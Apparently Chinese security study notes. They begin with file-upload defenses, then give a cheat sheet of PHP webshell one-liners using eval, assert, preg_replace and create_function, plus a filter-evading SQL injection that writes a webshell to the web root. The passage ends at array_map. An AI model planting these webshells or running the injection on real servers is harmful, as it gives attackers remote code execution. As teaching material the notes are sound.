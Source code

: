 - 采用`白名单`策略,严格限制文件上传的后缀名
- 进行`二次渲染`,过滤图片马中的恶意代码
- 上传文件`重命名`,尽量少的从客户端获取信息
- 避免`文件包含`漏洞
- 严格处理文件路径,防御`00截断`漏洞,避开`空格`,`点`,`::DATA$`等windows特性

------

### webshell及变形

#### 命令执行函数

> `system()`,`exec()`,`shell_exec()`,`passthru()`,`popen()`,`反引号`  --> 6种

#### 代码执行的函数

> `eval`,`assert`,`preg_replace`,`create_function`,`array_map`,`asort`,`call_user_func`,`call_user_func_array`,`array_filter` --> 9种

- `eval()`

```php
// ?a=phpinfo();
<?php @eval($_GET['a']);?>
    
<?=eval($_POST[1])?>
    
<script language="php">@eval($_POST[1]);?></script>
    
    name=1'ununionion selselectect 1,2,3,"<?php @eval($_POST[1]);?>" into outfile "/var/www/html/upload/sh.php" #&submit=Submit
```

- `assert()`

```php
// ?b=phpinfo();
<?php @assert($_POST['b']);?>
```

- `preg_replace()`

```php
// ?c=phpinfo();
</php @preg_replace("/abc/e",$_REQUEST['c'],"abc");?>
```

- `create_function()`

```php
// ?d=phpinfo();
<?php
$func=create_function("",$_REQUEST['d']);
$func();
?>
```

- `array_map()`
